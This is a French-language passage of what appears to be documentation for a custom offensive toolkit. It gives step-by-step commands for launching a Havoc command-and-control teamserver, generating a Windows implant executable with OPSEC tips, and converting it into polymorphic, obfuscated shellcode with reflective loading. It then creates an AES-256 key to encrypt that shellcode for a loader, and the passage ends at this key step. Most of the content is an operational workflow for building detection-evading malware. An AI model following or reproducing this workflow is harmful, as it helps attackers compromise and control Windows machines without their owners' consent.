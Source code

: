 #### Configuration de Havoc

1. Démarrer le serveur Havoc
```bash
cd /opt/Havoc
sudo ./teamserver server --profile ./profiles/havoc.yaotl -v
```

2. Démarrer le client Havoc dans un autre terminal
```bash
cd /opt/Havoc
./client
```

#### Génération du payload dans l'interface

1. Connectez-vous au serveur TeamServer
2. Accédez à **Attack > Payload**
3. Configurez les paramètres:
   - **Agent Type**: Havoc
   - **Listener**: Sélectionnez votre listener (créez-en un si nécessaire)
   - **Architecture**: x64 (recommandé)
   - **Output Format**: Windows Executable (.exe)

4. Cliquez sur **Generate** et enregistrez le fichier (ex: `payload.exe`)

> **Note**: Pour une meilleure OPSEC, créez votre payload avec une configuration minimisant la signature (options Sleep, Jitter, etc.)

### Étape 2: Conversion en shellcode

Le framework utilise notre convertisseur PE-to-shellcode personnalisé avec polymorphie et reflective loading intégrés.

```bash
# Convertir l'exécutable Havoc en shellcode polymorphique
python3 custom_pe2sc.py payload.exe shellcode.bin

# Vérifier la génération
ls -la shellcode.bin
```

**Que se passe-t-il en arrière-plan**:
1. Analyse du PE et détection d'architecture (x86/x64)
2. Sélection d'un algorithme d'encodage polymorphique aléatoire
3. Génération d'un shellcode avec stub de reflective loading
4. Application de techniques de polymorphie (junk code, variations de code)
5. Obfuscation des chaînes et API (technique de hachage)

### Étape 3: Chiffrement du shellcode

Cette étape utilise deux scripts:

#### 3.1. Génération de clé cryptographique

```bash
# Générer une clé AES-256 et l'exporter au format C++
python3 key_formatter.py -g 256 -t cpp -o loader_key.h -q

# Ou générer uniquement la clé brute pour utilisation immédiate
KEY=$(python3 key_formatter.py -g 256 -t raw -q)
echo $KEY > crypto.key
```
